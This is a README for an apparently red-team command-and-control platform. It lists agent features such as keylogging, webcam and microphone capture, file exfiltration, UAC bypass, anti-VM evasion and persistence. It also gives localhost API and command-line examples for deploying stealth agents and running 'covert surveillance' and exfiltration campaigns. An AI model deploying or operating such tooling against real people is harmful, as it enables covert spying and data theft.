

# Enhanced C2 Server - Advanced Red Teaming Platform

A comprehensive Command and Control (C2) server built with FastAPI, featuring real-time agent management, advanced capabilities, and a professional red teaming interface. This platform is designed for advanced red team operations with extensive stealth, persistence, and evasion features.

## 🔥 New Features in Enhanced Version

### Advanced Client Builder GUI
- **Professional UI**: Complete redesign with tabbed interface, professional styling, and enhanced usability
- **Configuration Presets**: Pre-configured attack scenarios (Covert Surveillance, Data Exfiltration, Lateral Movement, Minimal Recon)
- **Advanced Capabilities**: Screenshot capture, keylogger, file exfiltration, webcam/microphone access, privilege escalation, process injection, UAC bypass, DNS tunneling
- **Stealth & Evasion**: Anti-VM detection, integrity check bypass, reduced console output, system logging disablement
- **Persistence Mechanisms**: Startup, service, cron, launch agents, task scheduler, and hidden file options
- **Encryption & Obfuscation**: AES-256, ChaCha20, custom encryption, payload obfuscation, string encryption
- **Command Generation**: Real-time command-line generation in multiple formats (Python, PyInstaller, Batch, Shell)
- **Network Configuration**: Proxy support, custom headers, user-agent spoofing

### Enhanced Server Capabilities
- **Agent Registry**: Comprehensive agent information including capabilities, system specs, and enhanced metadata
- **Advanced Command Interface**: Screenshot and keylogger controls with capability detection
- **Capability-Based UI**: Dynamic dashboard controls based on agent capabilities
- **Enhanced API Endpoints**: New endpoints for advanced features with proper capability checking

## 🚀 Features

### Core C2 Features
- **Agent Management**: Register, monitor, and manage multiple agents with enhanced information
- **Command Execution**: Execute shell commands on remote agents with real-time results
- **Real-time Communication**: WebSocket-based real-time updates and status monitoring
- **File Transfer**: Advanced file upload/download capabilities with enhanced security
- **Heartbeat Monitoring**: Track agent status, connectivity, and persistence
- **Enhanced Web Dashboard**: Modern, professional interface with real-time updates

### Advanced Red Teaming Features
- **Stealth Operations**: Reduced console output, system logging disablement, process hiding
- **Persistence Mechanisms**: Multiple cross-platform persistence options (startup, services, cron, etc.)
- **Evasion Techniques**: Anti-VM detection, integrity check bypass, sandbox detection
- **Data Exfiltration**: Secure file transfer with encryption and obfuscation
- **Surveillance Capabilities**: Screenshot capture, keylogging, webcam/microphone access
- **Lateral Movement**: Privilege escalation, process injection, UAC bypass

### Security & Obfuscation Features
- **Encryption**: AES-256, ChaCha20 encryption with key management
- **Payload Obfuscation**: String encryption, variable name obfuscation, junk code addition
- **Network Evasion**: Proxy support, custom headers, user-agent spoofing
- **Runtime Detection**: Anti-analysis and anti-sandboxing capabilities

### Technical Features
- FastAPI framework with async support
- WebSocket real-time updates
- Enhanced file upload/download capabilities
- Comprehensive logging and monitoring
- Health monitoring
- RESTful API with capability checking
- Professional dashboard with capability-based controls

## 📸 Screenshots

### Advanced Client Builder GUI

*Professional GUI with tabbed interface, presets, and advanced configuration options*

### Enhanced Web Dashboard

*Dashboard showing connected agents with capabilities and enhanced controls*

### Command Execution Interface

*Advanced command execution with real-time results and output formatting*

## 📦 Installation

### Prerequisites
- Python 3.7+
- pip package manager

### Installation Steps

1. **Clone the repository**:
   ```bash
   git clone <repository-url>
   cd enhanced-c2
   ```

2. **Install dependencies**:
   ```bash
   pip3 install -r requirements.txt
   ```
   
   If you plan to use advanced features, also install:
   ```bash
   pip3 install Pillow pynput cryptography pywin32 psutil pyautogui
   ```

3. **Set up environment variables** (optional):
   ```bash
   cp .env.example .env
   # Edit .env with your configuration
   ```

## 🚀 Quick Start

### Starting the C2 Server

1. **Start the C2 Server**:
   ```bash
   python3 start_server.py
   ```
   The server will start on `http://localhost:8000`

2. **Access the Web Dashboard**:
   Open your browser and navigate to:
   - **Main Dashboard**: `http://localhost:8000/`
   - **Enhanced Dashboard**: `http://localhost:8000/simple` (Recommended)
   - **API Documentation**: `http://localhost:8000/docs`

### Using the Advanced Client Builder

1. **Start the GUI Client Builder**:
   ```bash
   python3 gui_client_builder.py
   ```

2. **Configure your client**:
   - Select target platform, server settings, and client identification
   - Choose advanced capabilities and stealth options
   - Configure persistence mechanisms and encryption
   - Apply one of the configuration presets or customize manually
   - Generate the client with one click

### Running Sample Agents

```bash
# Advanced cross-platform agent with all features
python3 advanced_client.py --server http://localhost:8000 --client-id advanced-agent

# Platform-specific agents with enhanced features
python3 mac_client.py --client-id mac-agent --stealth --disable-logging
python3 linux_client.py --client-id linux-agent --stealth --disable-logging
python3 windows_client.py --client-id windows-agent --stealth --disable-logging
```

## 🎯 Client Builder Configuration Options

### Basic Settings
- **Platform Selection**: Advanced (Cross-platform), Windows, Linux, macOS
- **Server Configuration**: Protocol (HTTP/HTTPS/WebSocket), IP, Port, Beacon Interval
- **Client Identification**: Client ID, Display Name

### Advanced Capabilities
- **Surveillance**: Screenshot capture, keylogger, webcam/microphone access
- **Data Exfiltration**: File upload/download, process injection
- **Access Escalation**: Privilege escalation, UAC bypass
- **Communication**: DNS tunneling, network scanning

### Stealth & Evasion
- **Stealth Mode**: Reduced console output, logging disablement
- **Evasion Techniques**: Anti-VM, integrity check bypass
- **Process Control**: Hide console window, disable system logging

### Persistence Mechanisms
- **Startup**: Registry, startup folder, autostart
- **Services**: Windows services, systemd, launch agents
- **Scheduling**: Cron jobs, task scheduler
- **File Hiding**: System file placement, attribute manipulation

### Encryption & Obfuscation
- **Encryption**: AES-256, ChaCha20, custom encryption
- **Obfuscation**: String encryption, variable obfuscation, junk code
- **Network**: Proxy support, custom headers, user-agent spoofing

## 🔧 Configuration

### Server Configuration
The server can be configured using environment variables or by modifying `config.py`:

- `SERVER_HOST`: Server host (default: 0.0.0.0)
- `SERVER_PORT`: Server port (default: 8000)
- `UPLOAD_DIR`: Directory for uploaded files
- `DOWNLOAD_DIR`: Directory for downloaded files
- `MAX_COMMAND_QUEUE_SIZE`: Maximum commands per agent (default: 100)
- `MAX_FILE_SIZE`: Maximum file size in bytes (default: 50MB)
- `SESSION_TIMEOUT`: Session timeout in seconds (default: 3600)
- `LOG_RETENTION_DAYS`: Days to retain logs (default: 30)

### Client Configuration
Advanced clients support numerous command-line options:

```bash
python3 advanced_client.py --server http://server:port \
  --client-id my-agent \
  --display-name "My Agent" \
  --beacon-interval 60 \
  --stealth \
  --hide-console \
  --disable-logging \
  --anti-vm \
  --encryption AES-256 \
  --encryption-key "mykey123"
```

## 🌐 API Endpoints

### Authentication (if enabled)
- `POST /api/auth/login` - Login and get JWT token

### Enhanced Agent Management
- `POST /api/agents/register` - Register a new agent with capabilities
- `GET /api/agents` - List all agents
- `GET /api/agents/{agent_id}/info` - Get comprehensive agent info
- `GET /api/agents/enhanced` - List agents with enhanced info
- `DELETE /api/agents/{agent_id}` - Remove an agent
- `POST /api/agents/{agent_id}/heartbeat` - Send heartbeat

### Command Execution
- `POST /api/commands/execute` - Execute a command on an agent
- `GET /api/commands/{agent_id}` - Get commands for an agent
- `POST /api/commands/result` - Submit command result
- `GET /api/commands/{agent_id}/results` - Get command results

### Enhanced Feature Endpoints
- `POST /api/commands/screenshot` - Queue screenshot command
- `POST /api/commands/keylogger/start` - Start keylogger
- `POST /api/commands/keylogger/stop` - Stop keylogger
- `POST /api/commands/keylogger/data` - Get keylogger data

### File Transfer
- `POST /api/files/upload` - Upload a file
- `GET /api/files/download/{filename}` - Download a file
- `GET /api/files/list` - List available files

### System
- `GET /api/health` - Health check
- `WS /ws` - WebSocket for real-time updates

## 💡 Usage Examples

### Registering an Agent with Capabilities
```python
import requests

agent_data = {
    "agent_id": "agent_001",
    "display_name": "Covert Agent",
    "hostname": "target-machine",
    "username": "user",
    "os_info": "Windows 10",
    "ip_address": "192.168.1.100",
    "port": 0,
    "cpu_count": 4,
    "memory_total": 8589934592,
    "disk_total": 512107712512,
    "capabilities": {
        "screenshot": True,
        "keylogger": True,
        "file_exfiltration": True,
        "webcam": True,
        "privilege_escalation": True
    }
}

response = requests.post("http://localhost:8000/api/agents/register", json=agent_data)
```

### Taking a Screenshot
```python
command_data = {
    "agent_id": "agent_001",
    "command": "SCREENSHOT",
    "command_type": "special"
}

response = requests.post("http://localhost:8000/api/commands/screenshot", json=command_data)
```

### Starting Keylogger
```python
# Start keylogger
response = requests.post("http://localhost:8000/api/commands/keylogger/start?agent_id=agent_001")

# Get keylogger data
response = requests.post("http://localhost:8000/api/commands/keylogger/data?agent_id=agent_001")

# Stop keylogger
response = requests.post("http://localhost:8000/api/commands/keylogger/stop?agent_id=agent_001")
```

### Enhanced Web Dashboard
The enhanced web dashboard provides:
- Real-time agent monitoring with capability display
- Enhanced command execution interface
- Advanced agent control buttons (screenshot, keylogger)
- File management system
- System logs and activity monitoring
- Statistics and metrics

Access it at `http://localhost:8000/simple` after starting the server.

## 🛡️ Security Considerations

⚠️ **WARNING**: This is a demonstration C2 server for educational and authorized testing purposes only. For production use:

1. **Change default configurations**
2. **Use strong, unique encryption keys**
3. **Implement proper network security**
4. **Add rate limiting and monitoring**
5. **Use HTTPS/TLS encryption for production**
6. **Implement proper logging and audit trails**
7. **Validate and sanitize all inputs**
8. **Use a proper database instead of in-memory storage**
9. **Configure appropriate access controls**

## 🏗️ Development

### Project Structure
```
enhanced-c2/
├── main.py                 # Main FastAPI application with enhanced features
├── config.py               # Configuration settings with enhanced options
├── start_server.py         # Server startup script
├── gui_client_builder.py   # Advanced GUI client builder
├── advanced_client.py      # Enhanced multi-platform client with all features
├── windows_client.py       # Windows-specific enhanced client
├── linux_client.py         # Linux-specific enhanced client
├── mac_client.py           # macOS-specific enhanced client
├── requirements.txt        # Python dependencies
├── README.md              # This file
├── uploads/               # Upload directory
├── downloads/             # Download directory
├── screens/               # Screenshots directory
├── static/                # Static files for web dashboard
├── demos/                 # Demo scripts
└── docs/                  # Documentation
```

### Adding New Features

1. **New API Endpoints**: Add routes in `main.py` with proper capability checking
2. **New Agent Commands**: Extend the command execution system in client files
3. **Dashboard Enhancements**: Update the HTML/JS in `main.py` dashboard section
4. **Security Improvements**: Add additional security measures as needed

## 📚 Advanced Use Cases

### Covert Surveillance Operations
- Configure clients with screenshot, keylogger, and webcam capabilities
- Set stealth mode and disable logging
- Use persistence mechanisms for long-term access
- Implement encryption and network obfuscation

### Data Exfiltration Campaigns
- Enable file exfiltration and process injection capabilities
- Configure custom encryption and obfuscation
- Set up multiple persistence mechanisms
- Implement proxy and custom header configuration

### Lateral Movement Operations
- Enable privilege escalation and UAC bypass features
- Configure process injection and network scanning
- Set up anti-VM and evasion techniques
- Use multiple beacon intervals for stealth

## 📄 License

This project is for educational and authorized penetration testing purposes only. Use responsibly and in accordance with applicable laws and regulations. The use of this software for attacking targets without prior mutual consent is illegal.

## 🤝 Contributing

1. Fork the repository
2. Create a feature branch (`git checkout -b feature/AmazingFeature`)
3. Commit your changes (`git commit -m 'Add some AmazingFeature'`)
4. Push to the branch (`git push origin feature/AmazingFeature`)
5. Open a Pull Request

## 📞 Support

For questions or issues, please open an issue on the repository. This project is intended for cybersecurity education and authorized testing only.

## ⚠️ Disclaimer

This software is provided for educational purposes only. The authors are not responsible for any misuse of this software. Always ensure you have explicit permission before testing on any system you do not own.